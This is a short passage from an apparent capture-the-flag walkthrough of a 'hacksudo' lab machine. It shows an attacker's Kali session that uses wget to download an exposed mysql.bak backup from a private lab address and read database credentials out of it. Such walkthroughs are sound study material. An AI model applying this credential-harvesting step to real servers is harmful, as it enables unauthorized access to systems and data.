 ![image]( /assets/img/hacksudo/hacksudo-1.png)

#### Download the mysql.bak

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ wget 10.0.2.224/backup/mysql.bak                                                                             1 ⚙
  --2021-04-09 16:11:07--  http://10.0.2.224/backup/mysql.bak
  Connecting to 10.0.2.224:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 1226 (1.2K) [application/x-trash]
  Saving to: ‘mysql.bak’

  mysql.bak                     100%[==============================================>]   1.20K  --.-KB/s    in 0s      

  2021-04-09 16:11:07 (138 MB/s) - ‘mysql.bak’ saved [1226/1226]
{% endhighlight %}

- Find credentials

{% highlight sh %}                                                                                                       
  ┌──(alienum㉿kali)-[~]
  └─$ cat mysql.bak                                                                                                1 ⚙
  #!/bin/bash

  # Specify which database is to be backed up
  db_name=""

  # Set the website which this database relates to
  website="localhost"

  # Database credentials
  user="vishal"
  password="hacksudo"
  host="localhost"
  ...
{% endhighlight %}
